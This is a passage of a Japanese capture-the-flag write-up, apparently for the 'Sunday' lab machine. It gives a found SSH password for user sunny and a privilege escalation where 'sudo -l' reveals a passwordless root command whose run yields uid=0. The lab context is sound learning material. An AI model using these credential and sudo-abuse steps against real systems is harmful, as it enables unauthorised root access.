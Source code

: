   https://www.youtube.com/watch?v=DIvULLqbKCk

  ![image-20220722215256446](img/image-20220722215256446.png)

  sunnyのパスワードはsunday

  * SSHしてみる

  ![image-20220722215620893](img/image-20220722215620893.png)

  →witeupとは異なりできてしまった。

## Privilege Escalation

* 以下コマンドを実行

```bash
sunny@sunday:/home/sammy$ sudo -l
ユーザー sunny は sunday 上で コマンドを実行できます
    (root) NOPASSWD: /root/troll
```

```bash
sunny@sunday:/home/sammy$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```
